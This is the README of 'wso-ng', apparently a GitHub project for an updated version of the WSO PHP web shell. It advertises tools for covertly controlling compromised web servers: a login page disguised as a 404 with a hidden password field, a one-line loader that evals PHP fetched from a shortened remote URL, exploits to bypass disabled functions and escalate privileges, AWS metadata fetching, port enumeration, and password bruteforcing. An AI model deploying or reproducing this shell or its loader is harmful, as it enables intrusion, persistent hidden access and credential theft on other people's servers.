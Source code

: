 [![Twitter Follow](https://img.shields.io/twitter/follow/0xbadad?style=social)](https://twitter.com/0xbadad)
# wso-ng
New generation of famous WSO web shell. With perks included
# default password is "root"
![image](https://user-images.githubusercontent.com/1212294/149636180-7af99caf-a6c4-4475-a42d-0bd818cb67b1.png)
![image](https://user-images.githubusercontent.com/1212294/149636349-e580a04e-846f-4240-8b94-644d6e9aca5a.png)

# changes
- can now hook password when loaded via stub `<?php eval(substr(file_get_contents('https://bit.ly/get-wso-ng?pass=ed78a48738eb97ffb5624741bdf391c3'), 5)); ?>`, and will use it instead of hardcoded one
- all subfile downloads are now cached in /tmp and zipped
- login page show natural site "404 not found" page. Just type password and press Enter, cuz password field hidden offscreen, but focused already.
- new breadcrumps navigation panel. Must be much more usefull.
- all files\dirs are now highlighted as their edit\view rights
- go to file\path right from breadcrumps field
- **add fastCGI exploit to auto-elevate & bypass disabled functions, when possible**
- **add php add-filter exploit to bypass disabled functions and gain console execution, when possible**
- ajax interaction now is default
- Ctrl+Enter on any field to Save\Run
- added "Fetch AWS metadata" command to bookmarks
- added hotlink to "Linux Exploit Suggester v2" by default.
- added VirusTotal integration, to autocheck IP reputation.
- added https://securitytrails.com integration, to show neighbors on same IP.
- added ip-info integration to show domains on same server
- added reverse ip check, to show real IP, and not local.
- added memory, cores and load average info to top bar.
- click on IP to copy it
- added list of open ports & sockets to *Sec. Info* section. Works ever if no console priveleges available, thru *fsock*.
- added support for phpRedis in *Sec. Info* section.
- reworked "Userful" section. Works thru limits of open basedir now.
- you can touch files right in file list of file manager now.
- fast copy name\path to clipboard by click.
- **neat syntax highlighting everywhere**.
- neat PHP code editing with autoindent support.
- default top1000 password list (https://bit.ly/top1kpass) in "Bruteforce" section. 
